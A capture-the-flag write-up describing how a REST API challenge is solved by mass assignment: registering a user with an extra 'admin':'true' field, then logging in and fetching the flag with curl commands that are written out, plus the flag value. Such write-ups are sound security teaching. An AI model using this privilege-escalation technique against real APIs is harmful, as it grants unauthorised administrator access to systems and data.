 # volume × density

## Problem

Volume X Density leads to a GET response from a Web API.  The problem itself also links to a open API yaml file that contains routes.  Challenge is setup as a REST API web app that is being tested currently.

## Links

* https://mobiusloop.plexhax.com

## Notes

The link https://mobiusloop.plexhax.com leads to just one of those routes, but the yaml file imported into Postman makes accessing the others simple.

## Solution

The site has a route GET route /plextrac/ctf/flag to return the flag, but a auth token needs to be passed in the header.  a JWT token can be obtained from POST route /users/v1/login.  There are GET routes /users/v1/_debug, and /users/v1/ that show users, email, and ifadmin.  But they don't show password.

```json
{
    "users": [
        {
            "admin": false,
            "email": "mail1@mail.com",
            "username": "name1"
        },
        {
            "admin": true,
            "email": "admin@mail.com",
            "username": "admin"
        }
    ]
}
```

There is lastly a POST route to register a new user /users/v1/register.  Now a user can pass a username, password, email in the body with the request.  But the user created when used on users/v1/login will return a JWT but will not be able to get the flag from /plextrac/ctf/flag.  The response from the route returning back that you need to be an admin.

The solution it turns out is the model (MVC) or logic that handles the json sent to the backend is not policing the key and value pairs sent to it.  From the route /users/v1/_debug a password field is not shown, but a admin field is.  This means that we can try passing an admin field to the database.  

```bash
# Sign up
curl --header "Content-Type: application/json" --data '{"username":"hi2","password":"hi","email":"hi@hi.com","admin":"true"}' https://mobiusloop.plexhax.com/users/v1/register

# Login
curl --header "Content-Type: application/json" --data '{"username":"hi2","password":"hi"}' https://mobiusloop.plexhax.com/users/v1/login

# Get flag
curl --header "Content-Type: application/json" --header "Authorization: Bearer {token} " https://mobiusloop.plexhax.com/plextrac/ctf/flag
```

Sending those three commands, and being quick cause the JWT expires in a minutes, the response and flag will be

```json
{"message": "PlexTrac_CTF=sweet_toward_goat_draw", "status": "success"}
```

